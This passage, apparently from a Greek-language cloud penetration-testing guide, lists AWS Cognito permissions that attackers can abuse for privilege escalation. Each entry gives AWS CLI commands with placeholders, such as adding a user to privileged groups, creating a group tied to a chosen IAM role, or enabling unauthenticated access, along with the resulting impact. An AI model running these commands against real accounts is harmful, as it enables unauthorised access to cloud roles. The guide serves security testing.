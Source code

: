 ```bash
# In this step you should have already an ID Token
aws cognito-identity get-id \
--identity-pool-id <id_pool_id> \
--logins cognito-idp.<region>.amazonaws.com/<YOUR_USER_POOL_ID>=<ID_TOKEN>

# Get the identity_id from thr previous commnad response
aws cognito-identity get-credentials-for-identity \
--identity-id <identity_id> \
--logins cognito-idp.<region>.amazonaws.com/<YOUR_USER_POOL_ID>=<ID_TOKEN>
```
Είναι επίσης δυνατό να **καταχραστεί αυτή η άδεια για να επιτραπεί η βασική αυθεντικοποίηση**:
```bash
aws cognito-identity update-identity-pool \
--identity-pool-id <value> \
--identity-pool-name <value> \
--allow-unauthenticated-identities
--allow-classic-flow
```
**Πιθανές Επιπτώσεις**: Συμβιβασμός του διαμορφωμένου αυθεντικοποιημένου IAM ρόλου μέσα στην πισίνα ταυτότητας.

### `cognito-idp:AdminAddUserToGroup`

Αυτή η άδεια επιτρέπει να **προσθέσετε έναν χρήστη Cognito σε μια ομάδα Cognito**, επομένως ένας επιτιθέμενος θα μπορούσε να εκμεταλλευτεί αυτή την άδεια για να προσθέσει έναν χρήστη υπό τον έλεγχό του σε άλλες ομάδες με **καλύτερες** προνόμια ή **διαφορετικούς IAM ρόλους**:
```bash
aws cognito-idp admin-add-user-to-group \
--user-pool-id <value> \
--username <value> \
--group-name <value>
```
**Πιθανές Επιπτώσεις:** Privesc σε άλλες ομάδες Cognito και IAM ρόλους που συνδέονται με τις Ομάδες User Pool.

### (`cognito-idp:CreateGroup` | `cognito-idp:UpdateGroup`), `iam:PassRole`

Ένας επιτιθέμενος με αυτές τις άδειες θα μπορούσε **να δημιουργήσει/ενημερώσει ομάδες** με **κάθε IAM ρόλο που μπορεί να χρησιμοποιηθεί από έναν συμβιβασμένο Cognito Identity Provider** και να κάνει έναν συμβιβασμένο χρήστη μέρος της ομάδας, αποκτώντας πρόσβαση σε όλους αυτούς τους ρόλους:
```bash
aws cognito-idp create-group --group-name Hacked --user-pool-id <user-pool-id> --role-arn <role-arn>
```
**Πιθανές Επιπτώσεις:** Privesc σε άλλους ρόλους IAM του Cognito.

### `cognito-idp:AdminConfirmSignUp`

Αυτή η άδεια επιτρέπει να **επιβεβαιωθεί μια εγγραφή**. Από προεπιλογή, οποιοσδήποτε μπορεί να συνδεθεί σε εφαρμογές Cognito, αν αυτό αφεθεί, ένας χρήστης θα μπορούσε να δημιουργήσει έναν λογαριασμό με οποιαδήποτε δεδομένα και να τον επιβεβαιώσει με αυτή την άδεια.
```bash
aws cognito-idp admin-confirm-sign-up \
--user-pool-id <value> \
--username <value>
```
**Πιθανές Επιπτώσεις:** Έμμεση εκμετάλλευση δικαιωμάτων στην IAM ρόλο της πιστοποίησης χρηστών αν μπορείτε να εγγραφείτε ως νέος χρήστης. Έμμεση εκμετάλλευση δικαιωμάτων σε άλλες λειτουργίες της εφαρμογής, έχοντας τη δυνατότητα να επιβεβαιώσετε οποιονδήποτε λογαριασμό.
